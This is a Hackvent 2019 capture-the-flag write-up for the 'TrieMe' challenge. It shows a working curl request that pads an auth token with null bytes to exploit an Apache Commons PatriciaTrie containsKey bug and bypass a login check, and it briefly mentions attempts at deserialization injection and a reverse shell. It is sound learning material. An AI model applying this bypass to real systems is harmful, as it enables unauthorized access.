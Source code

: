 # HV19.13 - TrieMe

| Author | Level | Categories |
|---|---|---|
| kiwi | medium | fun |

## Given 
Switzerland's national security is at risk. As you try to infiltrate a secret spy facility to save the nation you stumble upon an interesting looking login portal.

Can you break it and retrieve the critical information?

Facility: http://whale.hacking-lab.com:8888/trieme/
[HV19.13-NotesBean.java.zip](34913db9-fd2a-43c8-b563-55a1d10ee4cb.zip)

## Approach

Here's the one approach that worked:
- So, we want to become Admin - what looks odd is, that a security token must NOT be found in a data structure...
- This puts the focus on that PatriciTrie.containsKey method.
- Google for "Java PatriciaTrie containsKey bug"
- Eventually find https://issues.apache.org/jira/browse/COLLECTIONS-714, saying that adding an already existing key padded with a null byte to a PatriciaTrie structure removes an already existing key.

```bash
$ curl 'http://whale.hacking-lab.com:8888/trieme/faces/index.xhtml' -i \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Cookie: JSESSIONID=F42C98923EAF777AE65D8E59595261A2' \
--data 'j_idt14=j_idt14&j_idt14%3Aname=auth_token_4835989%00%00&j_idt14%3Aj_idt15=login&javax.faces.ViewState=7831036928425351547%3A7209554679698124656'
HTTP/1.1 200 
X-Powered-By: JSF/2.0
Content-Type: text/html;charset=UTF-8
Content-Length: 560
Date: Fri, 13 Dec 2019 21:46:49 GMT

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
     <title>SpyPortal</title><link type="text/css" rel="stylesheet" href="/trieme/faces/javax.faces.resource/style.css?ln=css" /></head><body>
     <h3>Secret Spy Portal</h3>
     <h4>STATUS:
      We will steal all the national chocolate supplies at christmas, 3pm: Here's the building codes: HV19{get_th3_chocolateZ}
      
  !</h4></body>
</html>
```

### Other approaches (not successful)
- Try to find vulnerabilities on Tomcat
- Serialize tons of Java objects and try to inject them through every possible parameter (cookies, queryparams, headers, request body, and more)
- Question the reason of why I'm even participating at Hackvent
- Try to leverage some more powerful tool and spin up an Amazon VM to receive the reverse shell

Once more, the whole thing is harder if you're not doing this kind of analysis at least from time to time.
But let's not forget that we do it for fun and to learn something (which was definitely the case here).


## Credits and Kudos
Massive credits go once more to *mcia*, who was once more able to open my eyes with subtle yet precise hints with no spoilers. Whithout him I would have gone to bed. Thanks mate. :D

## Flag:
`HV19{get_th3_chocolateZ}`
